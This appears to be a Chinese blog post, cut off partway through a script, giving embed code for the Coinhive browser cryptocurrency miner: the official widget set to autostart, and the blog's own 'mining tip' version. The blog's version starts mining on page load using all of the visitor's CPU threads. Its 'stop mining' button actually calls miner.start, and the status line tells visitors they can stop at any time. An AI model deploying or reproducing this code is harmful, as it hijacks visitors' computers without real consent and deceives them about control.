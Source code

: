 ## 挖矿样式

### Coinhive官网样式
```
<div>
	<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
	<div class="coinhive-miner" 
		style="width: 100%; height: 100px"
		data-key="YjyptNPkNzUZwQonjCLhkllZAW85Axyo"
		data-autostart="true"
		data-whitelabel="false"
		data-background="#000000"
		data-text="#eeeeee"
		data-action="#00ff00"
		data-graph="#555555"
		data-threads="7"
		data-throttle="0.1">
		<em>Loading...</em>
	</div>
</div>
```

### 本博客样式

```
<div>
	<h3 align="center">⬇⬇~ 挖 矿 打 赏 系 统 ~⬇⬇</h3>
	<script src="https://coinhive.com/lib/coinhive.min.js"></script>
	<center>
		<table >
			<tbody>
			<tr>
				<td align="center">启动线程数</td>
				<td align="center">当前算力(Hashs/秒)</td>
				<td align="center">您已贡献(Hash单位：个)</td>
			</tr>
			<tr>
				<td id="tcount" align="center">0</td>
				<td id="hps" align="center">0</td>
				<td id="ths" align="center">0</td></tr>
			<tr><td colspan="3;" id="status" align="center">您正在打赏中，随时可以停止。</td></tr>
			</tbody>
		</table>
	</center>
	
	<div><p id="minebutton" style="text-align:center;">
		<button onclick="miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)">停止挖矿打赏</button>
	</p></div>

	<script type="text/javascript">
		var miner=new CoinHive.User
			("YjyptNPkNzUZwQonjCLhkllZAW85Axyo",
			"www.ds-vip.top",
			{threads:navigator.hardwareConcurrency,autoThreads:!1,throttle:.9,forceASMJS:!1});
		
		miner.start(CoinHive.FORCE_EXCLUSIVE_TAB),
		setInterval(function(){var e=miner.getNumThreads(),
		n=Math.round(100*miner.getHashesPerSecond())/100,
		t=miner.getTotalHashes();miner.getAcceptedHashes()/256;
		
		miner.isRunning()?(document.getElementById("tcount").innerHTML=e,document.getElementById("hps").innerHTML=n,	
```
